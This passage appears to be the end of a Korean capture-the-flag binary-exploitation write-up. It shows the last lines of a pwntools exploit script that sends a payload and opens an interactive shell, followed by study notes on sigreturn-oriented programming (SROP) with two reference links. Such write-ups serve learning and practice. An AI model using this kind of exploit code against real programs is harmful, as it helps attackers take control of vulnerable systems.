 ```python
payload2 += read_plt

p.sendline(payload2)
pause()
sleep(1)
p.send("\x5e")
pause()
sleep(1)



p.interactive()
```

<br><br><br><br>
### 4. 몰랐던 개념

---

- syscall을 이용한 SROP

- [02.SROP(Sigreturn-oriented programming) - x64](https://www.lazenca.net/display/TEC/02.SROP%28Sigreturn-oriented+programming%29+-+x64)

위 사이트를 참고하여 SROP에 대해서 공부해야함. int 80 을 이용한 부분도 공부해야함

- [SROP 정리](https://tribal1012.tistory.com/16)

요기 보고 해보자.